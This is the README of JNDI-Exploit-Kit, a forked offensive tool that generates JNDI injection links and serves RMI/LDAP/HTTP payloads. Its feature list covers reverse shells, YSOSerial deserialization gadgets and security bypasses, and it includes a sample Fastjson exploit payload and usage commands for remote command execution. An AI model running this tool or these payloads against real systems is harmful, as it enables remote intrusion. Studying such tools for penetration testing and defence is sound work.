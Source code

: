 # JNDI-Exploit-Kit

## Disclaimer

This is a forked modified version of the great exploitation tool created by @welk1n (https://github.com/welk1n/JNDI-Injection-Exploit). Here is what I've updated on his tool:

- Added full integration of YSOSerial Payloads with support to Dynamic Commands. Now its possible to execute commands directly on the jndi:ldap URL making the tool a lot more convenient. Also added support to different types of dynamic commands:
  - exec_global: Default Ysoserial execution via Runtime.exec(command);
  - exec_win: Execute command using Runtime.exec(["cmd.exe", "/c", command]);
  - exec_unix: Execute command using Runtime.exec(["/bin/sh", "/c", command]);
  - java_reverse_shell: Native java reverse shell payload to avoid the use of Runtime.exec() and potentially bypass some protections;
  - sleep: Native java sleep payload. Its useful to detect if a gadged was executed when you don't have network exfiltration.
  - dns: Native java dns request. Its useful to detect if a gadget was executed.
- Added support to serialized java payloads to LDAP payloads. This allows exploitation of any java version as long the classes are present in the application classpath ignoring completely the trustURLCodebase=false.
- Added a proper menu with a help display and guidelines (and a fancy ascii banner just because :-p)
- Added some command line parameters to modify IP:PORT of the services. This helps on situations where the target can only access specific ports like 25, 53, 80, 443, etc. 
- Added standalone mode to all services, that way you can start only the JettyServer (HTTP), RMIServer or LDAPServer. The HTTP address can also be changed on standalone mode to redirect requests to a different server. This is helpful in cases when the target can only access a single port (like the port 53) and you need jump across multiple servers in the port 53 for successful exploitation.
- Modified the ASMified Transformer payload (java bytecode) to detect the operational system where the exploit code will be detonated (windows or unix like systems) and automatically runs the command into a proper terminal shell using the command Runtime.getRuntime().exec(String[] cmd) automatically mapping it to "cmd.exe /c command" or "/bin/bash -c command". That way we can control pipes and write output to files, etc.
- Added the JNDI bypass using groove published by @orangetw
- Modified the Expression Language in the EL bypass to a more concise payload that detects the operational system and runs the command in a proper terminal (similar to the modified ASMified Transformer code).
- Added two more JDK templates, JDK 1.6 and JDK 1.5. This is important in case of legacy systems that have ancient Java versions.

    Screenshots:
   ![image-20191018154346759](https://github.com/pimps/JNDI-Injection-Exploit/blob/master/screenshots/modified_ysoserial.jpg)

   ![image-20191018154346759](https://github.com/pimps/JNDI-Injection-Exploit/blob/master/screenshots/modified_new.png)

   ![image-20191018154346759](https://github.com/pimps/JNDI-Injection-Exploit/blob/master/screenshots/modified.png)

   ![image-20191018154346759](https://github.com/pimps/JNDI-Injection-Exploit/blob/master/screenshots/modified2.png)
   
   POC Video:
   
   [![Video](http://img.youtube.com/vi/yzTxy2N7dBo/0.jpg)](https://www.youtube.com/watch?v=yzTxy2N7dBo "Liferay 6.x RCE via JSON Deserialization -> JNDI Injection")

Download of compiled version: https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar

## Credits

To build the functionalities of this project I collected Gadget payloads and code snippets from the following researchers/repositories:
- https://github.com/federicodotta/ysoserial/
- https://github.com/JackOfMostTrades/ysoserial/
- https://github.com/Jeromeyoung/JNDIExploit-1
- https://github.com/wh1t3p1g/ysoserial
- https://github.com/frohoff/ysoserial

## =========== CONTENT FROM ORIGINAL PROJECT ==============

[Materials about JNDI Injection](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)

## Description

JNDI-Injection-Exploit is a tool for generating workable JNDI links and provide background services by starting RMI server,LDAP server and HTTP server. RMI server and LDAP server are based on  [marshals](https://github.com/mbechler/marshalsec) and modified further to link with HTTP server. 

Using this tool allows you get JNDI links, you can insert these links into your **POC** to test vulnerability. 

For example, this is a Fastjson vul-poc:

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/Object","autoCommit":true}
```

We can replace  "rmi://127.0.0.1:1099/Object" with the link generated by JNDI-Injection-Exploit to test vulnerability. 

## Disclaimer

All information and code is provided solely for educational purposes and/or testing your own systems for these vulnerabilities.

## Usage

 Run as

```shell
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

where:

- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-A** - the address of your server, maybe an IP address or a domain.

  (optional , default address is the first network interface address)

Points for attention:

- make sure your server's ports (**1099**, **1389**, **8180**) are available .

  or you can change the default port in the run.ServerStart class line 26~28.

- your command is passed to **Runtime.getRuntime().exec()** as parameters, 

  so you need to ensure your command is workable in method exec().
  
  **Command in bash like "bash -c ...." need to add Double quotes.**

## Examples

 Local demo:

1. Start the tool like this:

   ```shell
   $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
   ```

    Screenshot:

   ![image-20191018154346759](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)

2. Assume that we inject the JNDI links like rmi://ADDRESS/jfxllc generated in step 1 to a vulnerable application which can be attacked by JNDI injection.

   In this example, it looks like this:

   ```java
   public static void main(String[] args) throws Exception{
       InitialContext ctx = new InitialContext();
       ctx.lookup("rmi://127.0.0.1/fgf4fp");
   }
   ```

   then when we run this code, the command will be executed ,

   and the log will be printed in shell:

   ![image-20191018154515787](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)



## Installation

We can select one of the two methods to get the jar.

1. Download the latest jar from [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar).

2. Clone the source code to local and build (Requires Java 1.8+ and Maven 3.x+).

   ```shell
   $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
   ```

   ```shell
   $ cd JNDI-Injection-Exploit
   ```

   ```shell
   $ mvn clean package -DskipTests
   ```

## To do

- (**Done**)Combine this project and [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass) to generate workable links when **trustURLCodebase is false** in higher versions of JDK by default.
- … ...

